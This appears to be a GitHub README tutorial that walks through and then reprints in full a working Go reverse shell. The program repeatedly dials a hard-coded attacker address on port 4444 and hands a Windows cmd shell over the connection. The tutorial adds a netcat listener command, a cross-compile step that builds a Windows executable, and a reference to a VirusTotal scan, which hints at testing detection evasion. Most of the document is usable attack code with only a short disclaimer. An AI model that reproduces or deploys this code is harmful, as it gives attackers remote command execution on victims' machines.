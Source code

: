 
    # Building a Reverse Shell in Go

    In this tutorial, we'll explore how to create a basic reverse shell in Go. A reverse shell is a type of shell where the target machine communicates back to the attacking machine. This can be useful for remote administration or accessing a system that is behind a firewall.

    ## Understanding the Code

    Let's break down the code step by step:

    ### Package and Imports

    ```go
    package main

    import (
        "fmt"
        "net"
        "os"
        "os/exec"
        "time"
    )
    ```

    - `package main`: Indicates that this Go file is the main package, which can be executed.
    - `import`: Importing necessary packages for our program. We import `fmt` for formatting, `net` for networking operations, `os` for operating system functionalities, `os/exec` for executing external commands, and `time` for time-related operations.

    ### Variables

    ```go
    var (
        a1 = "192.168.23.129"
        a2 = 4444
    )
    ```

    - `a1` and `a2` are variables storing the IP address and port number, respectively, of the attacker's machine.

    ### Function `e1()`

    ```go
    func e1() {
        if a1 == "0.0.0.0" || a2 == 0 {
            fmt.Fprintln(os.Stderr, "[ERROR] a1 and/or a2 not defined.")
            os.Exit(1)
        }
    }
    ```

    - `e1()` checks if the IP address (`a1`) or port number (`a2`) is not defined and exits the program with an error message if they are not defined.

    ### Function `e2()`

    ```go
    func e2() net.Conn {
        var c net.Conn
        var err error
        for {
            c, err = net.Dial("tcp", fmt.Sprintf("%s:%d", a1, a2))
            if err == nil {
                break
            }
            time.Sleep(5 * time.Second)
        }
        return c
    }
    ```

    - `e2()` attempts to establish a TCP connection to the attacker's machine (`a1:a2`). It retries every 5 seconds until a successful connection is made and returns the connection object `c`.

    ### Function `e3()`

    ```go
    func e3(c net.Conn) {
        cmd := exec.Command("cmd")
        cmd.Stdin = c
        cmd.Stdout = c
        cmd.Stderr = c
        err := cmd.Start()
        if err != nil {
            fmt.Fprintln(os.Stderr, "[ERROR] cmd start failed:", err)
            os.Exit(1)
        }
        cmd.Wait()
    }
    ```

    - `e3()` executes the `cmd` command on the target machine, redirecting its standard input, output, and error to the network connection `c`.

    ### Main Function

    ```go
    func main() {
        e1()
        c := e2()
        e3(c)
    }
    ```

    - The `main()` function calls `e1()` to check if the IP address and port are defined, then establishes a connection using `e2()` and executes the `cmd` command using `e3()`.

    ### Running the Code

    To run this code, you need to replace `a1` and `a2` with your own IP address and port number. Compile the code using `go build` and run the resulting executable on the target machine.

    In your attacker machine, you can listen for incoming connections using tools like `nc` or `netcat`:

    ```bash
    nc -nlvp 4444
    ```

    Once the connection is established, you should see a command prompt from the target machine on your attacker machine, allowing you to execute commands remotely.

    This is a basic example of a reverse shell in Go. Remember, using such techniques for unauthorized access is illegal and unethical. Always ensure you have proper authorization before attempting any remote administration.

```go
package main

import (
	"fmt"
	"net"
	"os"
	"os/exec"
	"time"
)

var (
	a1 = "192.168.23.129"
	a2 = 4444
)

func e1() {
	if a1 == "0.0.0.0" || a2 == 0 {
		fmt.Fprintln(os.Stderr, "[ERROR] a1 and/or a2 not defined.")
		os.Exit(1)
	}
}

func e2() net.Conn {
	var c net.Conn
	var err error
	for {
		c, err = net.Dial("tcp", fmt.Sprintf("%s:%d", a1, a2))
		if err == nil {
			break
		}
		time.Sleep(5 * time.Second)
	}
	return c
}

func e3(c net.Conn) {
	cmd := exec.Command("cmd")
	cmd.Stdin = c
	cmd.Stdout = c
	cmd.Stderr = c
	err := cmd.Start()
	if err != nil {
		fmt.Fprintln(os.Stderr, "[ERROR] cmd start failed:", err)
		os.Exit(1)
	}
	cmd.Wait()
}

func main() {
	e1()
	c := e2()
	e3(c)
}


```
## Compilation
```sh
GOOS=windows GOARCH=amd64 go build -o crust.exe curb.go
```


    ### Virustotal Scan
    ![alt text](go-revshell.png)
    
    ### session

    ![alt text](go-revshell-2.png)


#peacout


